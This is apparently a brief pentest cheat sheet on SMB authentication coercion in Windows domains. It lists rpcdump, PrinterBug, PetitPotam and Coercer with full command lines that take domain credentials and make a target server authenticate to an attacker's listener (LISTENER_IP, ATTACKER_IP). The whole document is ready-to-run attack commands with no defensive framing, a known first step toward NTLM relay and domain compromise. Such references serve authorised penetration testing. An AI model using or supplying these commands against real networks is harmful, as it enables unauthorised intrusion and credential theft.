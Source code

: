 # Coerce SMB 

## Tools: PetitPotam , rpcdump , coercer , printerbug

### Commands:

#### 1) PrinterBug

    rpcdump.py DOMAIN/USER:PASSWORD@DOMAIN_SERVER | grep MS-RPRN

    printerbug.py 'DOMAIN/USERNAME:PASSWORD'PRINTER_IP LISTENER_IP

#### 2) PetitPotam

    PetitPotam.py -d DOMAIN -u USER -p PASSWORD LISTENER_IP TARGET_IP

#### 3) Coercer

    coercer.py -u USER -d DOMAIN -p PASSWORD -t TARGET -l ATTACKER_IP
